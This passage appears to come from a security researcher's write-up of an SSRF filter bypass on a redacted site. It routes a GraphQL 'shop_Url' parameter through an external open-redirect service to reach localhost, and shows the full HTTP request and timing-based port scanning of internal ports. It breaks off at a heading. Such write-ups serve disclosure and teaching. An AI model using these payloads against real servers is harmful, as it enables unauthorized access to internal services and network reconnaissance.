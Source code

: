 After the previous bypasses, the application had blocked 127.0.0.1, 127.0.1.3, and octal-formatted IPs. This time, a different strategy was employed: exploiting an external open redirect endpoint to perform SSRF.

The goal was to make the server believe the target URL was safe, while secretly redirecting it to an internal resource.

#### **Technical Background**

The shop_Url parameter provided by the user was set to:

```http
http://307.r3dir.me/--to/?url=http://localhost:80
```

Although this URL appeared harmless at first glance, 307.r3dir.me was an open redirect service. When the server made a request to this address, it was automatically redirected to http://localhost:80.

#### HTTP Request

```http
POST /api/graphql HTTP/2  
Host: redacted.com  
Cookie: session_id=<SESSION_ID>;  
User-Agent: k4yra  
Content-Type: application/json  
  
{  
  "operationName": "ConnectWoocommerce",  
  "variables": {  
    "shop_Url": "http://307.r3dir.me/--to/?url=http://localhost:80"  
  },  
  "query": "mutation ConnectWoocommerce($shop_Url: String!) {\n  connectChannel(shop_Url: $shop_Url)\n}"  
}
```

The server, upon receiving this request, performs the following steps:

1. The server makes a GET [http://307.r3dir.me/](http://307.r3dir.me/)... request
2. A 3xx redirection response is received → Location: [http://localhost:80](http://localhost:80)
3. The server follows the redirect **without validation**
4. **Result**: Access to localhost:80 is achieved → the SSRF chain is completed successfully

#### **Port Scanning**

When a port number is appended to the redirect target, the same timing-based port scanning logic can be applied:

- [http://307.r3dir.me/--to/?url=http://localhost:80](http://307.r3dir.me/--to/?url=http://localhost:80) → fast response
- [http://307.r3dir.me/--to/?url=http://localhost:79](http://307.r3dir.me/--to/?url=http://localhost:79) → timeout

Using this difference, open ports can once again be identified.

#### **Why This Method Worked**?
